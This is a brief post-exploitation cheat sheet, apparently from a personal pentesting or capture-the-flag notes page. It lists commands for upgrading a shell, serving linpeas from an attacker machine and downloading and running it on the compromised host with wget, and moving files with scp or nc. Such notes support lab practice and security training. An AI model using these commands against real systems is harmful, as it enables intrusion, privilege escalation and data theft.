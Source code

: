 ```yaml
---
title: "Foothold cheat sheet"
date: 2024-03-17
---
```

## Get pretty shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
If Python is not installed:
```
script /dev/null -c bash
```
## Get linpeas
On the server side (attacker machine):
```
python3 -m http.server 8080
```
On the attacked machine:
```
wget http://10.10.14.59:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
## File transfer
### scp
Using `scp` which requires an SSH server on the remote side:
```
scp  [<user>@[<ip>:]]<source_file> [<user>@[<ip>:]]<target_file>
```
### nc
If there is a firewall, `nc` can be used. On the target side, we listen for a new connection and redirect the output to a file:
```
nc -lnvp <port> > <target_file>
```
On the source side, we use `nc` to send the file:
```
cat <source_file> | nc <target_ip> <port>
```
With this method, you should manually kill the connection. Be sure to check the MD5 sum of the source and the target after that in order to be sure the transfer has been fine.